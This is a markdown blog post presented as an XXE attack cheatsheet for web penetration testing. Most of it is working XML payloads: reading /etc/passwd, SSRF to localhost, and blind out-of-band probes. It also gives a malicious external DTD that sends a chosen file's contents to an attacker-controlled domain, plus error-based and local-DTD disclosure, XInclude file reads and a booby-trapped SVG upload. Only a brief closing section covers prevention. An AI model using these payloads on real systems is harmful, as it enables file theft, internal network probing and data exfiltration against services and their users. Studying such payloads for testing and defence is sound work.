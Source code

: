 ```yaml
---
title: "XXE attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "XXE cheatsheet"

tags: ["web", "penetest", "xxe"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# XML external entity injection

XXE is a specific attack against XML application. It can allow an attacker to view files, interact directly with the backend, or other application related to the corrupt one. 

This attack is perform as an initial vector for SSRF. To check for the vulnerability you will have to intercept the request and change the post data. Post data are used in 99.99% for XML applications.

## Basics

- External entities to retrieve files

	Simple payload to retrieve a file from the filesystem
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/passwd"> \]>
	{{< /highlight >}}
		

- Perform SSRF attacks

	As the previous one simple payload, you can adapt the IP by using URL to fetch APIs or whatever
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "http://127.0.0.1/"> \]>
	{{< /highlight >}}
	

## Blind XXE

- Out-of-band interaction

	In this attack you will use the same payload as for the SSRF combined attack, but you will use your IP to check for inbound traffic.
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE test \[ <!ENTITY xxe SYSTEM "YOUR_DOMAIN_OR_IP"> \]>
	{{< /highlight >}}
	
- Out-of-band interaction via XML parameter entities

	Same principle and a similar payload but two different test
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE stockCheck \[<!ENTITY % [xxe](https://portswigger.net/web-security/xxe) SYSTEM "YOUR_DOMAIN_OR_IP"> %xxe; \]>
	{{< /highlight >}}
	

- Exfiltrate data using a malicious external DTD

	First, DTD is a text file that store XML attributes and elements used by an application.
	This exfiltration has two phases:
	
	1. You will have to host the DTD file on your website and it should be accessible for external use. This file should contain the following payload:
		
		{{< highlight xml "lineNos=false" >}}
		<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'YOURDOMAIN/?log=%file;'>"> 
		%eval;  
		%exfil;
		{{< /highlight >}}
	
	
	2. Then exploit as you will do an classical exfiltration but you should specify the DTD file as follow : 

		{{< highlight xml "lineNos=false" >}}
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "DTD_URL"> %xxe;]>
		{{< /highlight >}}
	
	
	3. Now you should tcpdump or go to your website logs to view the file you want to retrieve.
	
- Retrieve data via error messages

	This attack has the same action than the external DTD we saw previously. You just need to replace the step 1 payload with the following one:
	
	{{< highlight xml "lineNos=false" >}}
	<!ENTITY % file SYSTEM "file://FILE_PATH_TO_RETRIEVE">  
	<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">  
	%eval;  
	%exfil;
	{{< /highlight >}}
	
	This will throw an error containing the file you specify
	
- Retrieve data by repurposing a local DTD

	For this one you need to find a local DTD on the system. Once you get it you can simply redeclare a function and trigger for example the error based exfiltration. In this example we suppose that the local file is  `DTD_LOCAL_FILE` and the entity inside is called `PWNME`. The following payload is to include on the XML post data :
	
	{{< highlight xml "lineNos=false" >}}
	<!DOCTYPE message [
	<!ENTITY % local_dtd SYSTEM "file://DTD_LOCAL_FILE">
	<!ENTITY % PWNME '
	<!ENTITY &#x25; file SYSTEM "file://FILE_PATH_TO_RETRIEVE">
	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
	&#x25;eval;
	&#x25;error;
	'>
	%local_dtd;
	]>
	{{< /highlight >}}


## Others examples

- Exploiting XInclude to retrieve files

	Back to basics, simple efficient payload :
	
	{{< highlight xml "lineNos=false" >}}
	<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file://FILE_PATH_TO_RETRIEVE"/></foo>
	{{< /highlight >}}
	
	
- Exploiting XXE via image file upload

	For this attack you will have to prepare a SVG file containing the following payload and adapt parameters :
	
	{{< highlight xml "lineNos=false" >}} 
	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file://FILE_PATH_TO_RETRIEVE" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
	{{< /highlight >}}

	Then just upload it as an image and you should have the file data in your image display
	
	
## How to prevent them 

XXE exist due to bad handle of user input or used of dangerous function in used librairie.
The best way to prevent them is to include only necessaries functions or remove unnecessaries ones. 

Import ones to disable are `XInclude` and `external entities resolutions`